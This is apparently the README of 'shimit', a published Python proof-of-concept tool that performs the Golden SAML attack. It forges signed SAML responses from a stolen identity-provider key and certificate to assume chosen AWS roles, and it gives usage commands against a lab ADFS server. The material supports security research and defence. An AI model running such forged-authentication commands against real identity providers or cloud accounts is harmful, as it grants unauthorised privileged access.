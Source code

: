 # shimit

`shimit` is a python tool that implements the Golden SAML attack. More informations on this can be found in the following [article](https://www.cyberark.com/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-cloud-apps/) on our blog.

```
python .\shimit.py -h
usage: shimit.py [-h] -pk KEY [-c CERT] [-sp SP] -idp IDP -u USER [-reg REGION]
                 [--SessionValidity SESSION_VALIDITY] [--SamlValidity SAML_VALIDITY] -n SESSION_NAME
                 -r ROLES -id ARN [-o OUT_FILE] [-l LOAD_FILE] [-t TIME]
                 
              ██╗   ███████╗██╗  ██╗██╗███╗   ███╗██╗████████╗     ██╗ ██╗  
             ██╔╝   ██╔════╝██║  ██║██║████╗ ████║██║╚══██╔══╝    ██╔╝ ╚██╗ 
            ██╔╝    ███████╗███████║██║██╔████╔██║██║   ██║      ██╔╝   ╚██╗
            ╚██╗    ╚════██║██╔══██║██║██║╚██╔╝██║██║   ██║     ██╔╝    ██╔╝
             ╚██╗   ███████║██║  ██║██║██║ ╚═╝ ██║██║   ██║    ██╔╝    ██╔╝ 
              ╚═╝   ╚══════╝╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═╝     ╚═╝  
```
## Overview
In a golden SAML attack, attackers can gain access to an application (any application that supports SAML authentication) with any privileges they desire and be any user on the targeted application.

*shimit* allows the user to create a signed _SAMLResponse_ object, and use it to open a session in the Service Provider. *shimit* now supports AWS Console as a _Service Provider_, more are in the works...
### AWS 
After generating and signing the _SAMLResponse_'s _assertion_, shimit will call the _AssumeRoleWithSAML()_ API in AWS. Then, the session token and key will be applied to a new session, where the user can use aws cli to perform action using the permissions obtained using the *golden SAML*. 

## Requirements:
For installing the required modules, run the following command:

```
python -m pip install boto3 botocore defusedxml enum python_dateutil lxml signxml
```
### AWS cli ###
Needs to be installed in order to use the credentials obtained.
Can be downloaded for [Windows](http://docs.aws.amazon.com/cli/latest/userguide/awscli-install-windows.html) or
[Linux](http://docs.aws.amazon.com/cli/latest/userguide/awscli-install-linux.html)
from these links.


## Usage:


### Apply session for AWS cli
```
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
```
**idp** - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust

**pk**  - Private key file full path (pem format)

**c**   - Certificate file full path (pem format)

**u**   - User and domain name e.g. domain\username (use \\ or quotes in *nix)

**n**   - Session name in AWS

**r**   - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.

**id**  - AWS account id e.g. 123456789012



### Save SAMLResponse to file
```
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
**o**  - Output encoded SAMLResponse to a specified file path
### Load SAMLResponse from file
```
python .\shimit.py -l saml_response.xml
```
**l**  - Load SAMLResponse from a specified file path

## Contributions

`shimit` supports AWS as a service provider at the moment, as a POC. We highly encourage you to conribute with a new modules for other service providers. 